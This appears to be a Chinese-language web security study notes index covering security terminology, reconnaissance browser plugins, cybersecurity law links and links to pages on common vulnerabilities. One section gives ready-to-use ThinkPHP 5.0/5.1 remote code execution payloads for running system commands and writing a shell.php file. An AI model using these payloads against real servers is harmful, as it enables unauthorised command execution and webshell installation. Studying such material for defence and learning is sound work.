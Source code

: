 # web安全

## 安全的常用术语

- vul：vulnerable：漏洞
- payload：ShellCode中的主要功能代码
- POC：Proof ofConcept：漏洞证明
- EXP：Exploit：漏洞利用
- CVE漏洞编号：Common Vulnerabilities & Exposures 公开的漏洞
- XSS Cheat Sheet: xss备忘单

## 浏览器插件

- SwitchyOmega
- Shodan
- FOFA Pro View
- IP, DNS & Security Tools | HackerTarget.com
- wappalyzer
- XPath Helper
- 迅雷下载

## 网络安全法

- [中华人民共和国网络安全法](http://www.xinhuanet.com/politics/2016-11/07/c_1119867015.htm)
- [T00ls法律讲堂](https://www.t00ls.net/Law-articles.html)

## [信息收集](./1信息收集/信息收集.html)

## 常见漏洞

- [xss速查表](./2漏洞/xss速查表.html)
- [sql injection](./2漏洞/sql注入进阶.html)
- [文件上传漏洞](./2漏洞/文件上传漏洞.html)
- [PHP反序列化](./2漏洞/PHP反序列化漏洞.html)
- 逻辑漏洞

## 工具

- [nmap](./3工具/nmap.html)

## 通用漏洞

## ThinkPHP5.0和5.1版本远程代码执行分析

```poc
5.0版本POC（不唯一）:
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
命令执行：?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=[系统命令]
文件写入：?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php&vars[1][1]=<?php phpinfo();?>

5.1版本POC（不唯一）
?s=index/\think\Request/input&filter=phpinfo&data=1
命令执行：?s=index/\think\Request/input&filter=system&data=[系统命令]
文件写入：?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
```

- [WinRAR目录穿越漏洞（CVE-2018-20250）](https://github.com/WyAtu/CVE-2018-20250)
- [IIS短文件漏洞](https://github.com/lijiejie/IIS_shortname_Scanner)